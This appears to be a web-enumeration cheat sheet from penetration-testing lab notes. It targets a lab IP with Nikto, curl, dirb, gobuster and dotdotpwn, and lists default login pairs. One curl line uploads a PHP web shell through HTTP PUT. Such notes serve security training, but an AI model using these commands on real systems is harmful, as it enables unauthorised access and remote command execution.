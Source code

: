 ```
# Nikto
nikto -h http://10.10.10.87

# Nikto with squid proxy
nikto -h 10.10.10.87 -useproxy http://10.10.10.87:4444

# Get header
curl -i 10.10.10.87

# Get everything
curl -i -L 10.10.10.87

# Check if it is possible to upload using put
curl -v -X OPTIONS http://10.10.10.87/
curl -v -X PUT -d '<?php system($_GET["cmd"]); ?>' http://10.10.10.87/test/shell.php

# Check for title and all links
dotdotpwn.pl -m http -h 10.10.10.87 -M GET -o unix
```


#### Nikto scan


INSERTNIKTOSCAN



#### Url brute force



```
# Dirb
dirb http://10.10.10.87 -r -o dirb-10.10.10.87.txt

# Gobuster - remove relevant responde codes (403 for example)
gobuster -u http://10.10.10.87 -w /usr/share/seclists/Discovery/Web_Content/common.txt -s '200,204,301,302,307,403,500' -e
```

INSERTDIRBSCAN


#### Default/Weak login

Google documentation for default passwords and test them:

```
site:webapplication.com password
```

```
admin admin
admin password
admin <blank>
admin nameofservice
root root
root admin
root password
root nameofservice
<username if you have> password
<username if you have> admin
<username if you have> username
<username if you have> nameofservice
```
